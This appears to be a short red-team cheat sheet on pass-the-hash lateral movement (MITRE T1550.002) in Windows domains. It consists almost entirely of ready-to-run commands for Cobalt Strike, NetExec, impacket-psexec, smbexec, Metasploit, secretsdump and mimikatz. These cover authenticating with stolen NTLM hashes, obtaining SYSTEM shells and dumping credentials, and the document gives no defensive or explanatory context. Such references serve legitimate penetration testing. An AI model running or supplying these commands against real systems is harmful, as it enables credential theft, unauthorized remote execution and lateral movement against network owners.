 T1550.002
PSexec will always attempt to return as NT_AUTHORITY\SYSTEM on admin accounts.

(Cobalt Strike) PtH 
- Uses mimikatz sekurlsa::pth
```bash
pth <DOMAIN>\<USER> <HASH>
```
(NXC) PtH
```bash
nxc smb <IP> -u <USER> -d <DOMAIN> -H <HASH> 
```
(Psexec) PtH
```bash
impacket-psexec <USER>@<IP> -hashes <LM:NTLM>
```
(Psexec) User authentication
```bash
impacket-psexec <DOMAIN>/<USER>@<IP>
```
(smbexec) User authentication
```bash
smbexec <USER>:<PASS>@<IP>
```
(Metasploit) PtH
```bash
exploit/windows/smb/psexec
```
(Secretsdump) Dumping credentials using hashes
```bash
secretsdump <DOMAIN>/<USER>:@<IP> -hashes <HASH>
```
(Mimikatz) PtH
- /aes128 and /aes256 for other encryption hashes 
```bash
mimikatz.exe sekurlsa::pth /user:"<USER>" /domain:"<DOMAIN>" /ntlm:"<HASH>"
```